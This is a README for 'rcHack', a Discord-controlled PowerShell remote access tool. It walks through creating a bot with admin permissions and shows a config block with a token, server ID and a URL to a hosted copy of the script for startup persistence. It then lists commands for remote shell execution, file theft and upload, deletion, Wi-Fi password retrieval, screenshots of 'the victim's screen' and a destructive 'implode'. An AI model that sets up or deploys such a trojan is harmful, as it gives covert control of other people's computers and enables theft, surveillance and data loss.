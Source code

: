 ## How to Set Up the Discord Bot?

1. Go to [Discord Developer Portal](https://discord.com/developers/applications).
2. Click "New application," name it, and click "Create."
3. In the Bot tab, copy the bot token.
4. Under Privileged Gateway Intents, enable:
   - PRESENCE INTENT
   - SERVER MEMBERS INTENT
   - MESSAGE CONTENT INTENT
   Then click "Save Changes."
5. In the Oauth2 tab:
   - Under Redirects, type `http://localhost/`.
   - Enable the following:
     - `messages.read`
     - `applications.commands`
     - `bot`
   - Select redirect URL `http://localhost/` and add the
   - `admin` permission.
   - Copy the generated URL.
6. Open the copied URL in the browser and follow the steps to add the bot to your server.

Now the bot is set up. Update the `rcHack.ps1` file with the bot token and server ID.

# rcHack Discord Bot Setup

## Setup Instructions for rcHack.ps1

1. Open `rcHack.ps1` in a text editor.
2. Edit the following variables with your specific information:
   ```powershell
   $token = "YOUR_DISCORD_BOT_TOKEN_HERE"

   $guildId = "YOUR_DISCORD_SERVER_ID"

   $StartupPsOnlineFileLocation = "HTTPS://WWW.EXAMPLE.COM/URL_TO_YOUR_RCHACK_SCRIPT.PS1"
   ```
the `StartupPsOnlineFileLocation` url should lead to an online-hosted version of itself (an exact copy)






```plaintext
COMMAND_NAME          | PARAMETERS
----------------------|-----------------------------------
If you see 'Requires admin.', that means the script wasn't run as administrator.

EXAMPLES

1. !cmd               | Executes a command in cmd and returns the output
   Example: !cmd ipconfig

2. !powershell        | Executes a command in PowerShell and returns the output
   Example: !powershell ipconfig

3. !dir               | Displays the current directory
   Example: !dir

4. !cd                | Changes the current directory
   Example: !cd C:\location\of\file

5. !download          | Downloads a file from a specified location or current directory
   Example: !download C:\location\of\file\file.txt
   Example: !download file.txt

6. !upload {ATTACHMENT}| Uploads any attachment to the current directory
   Example: !upload {ATTACHMENT}

7. !delete            | Deletes a specified file or directory
   Example: !delete C:\location\of\file\file.txt

8. !availwifi         | Retrieves available Wi-Fi networks
   Example: !availwifi

9. !wifipass          | Retrieves Wi-Fi passwords
   Example: !wifipass

10. !screenshot        | Captures a screenshot of the victim's screen
    Example: !screenshot

...

45. !startup           | Enables persistence for this script
        will add a ps1 script to startup
        on line 9, set the var StartupPsOnlineFileLocation to the full url of your ps1 file
    Example: !startup

46. !implode           | Triggers a system implosion (Use with caution!)
    Example: !implode

47. !help              | Displays information about available commands
    Example: !help
```
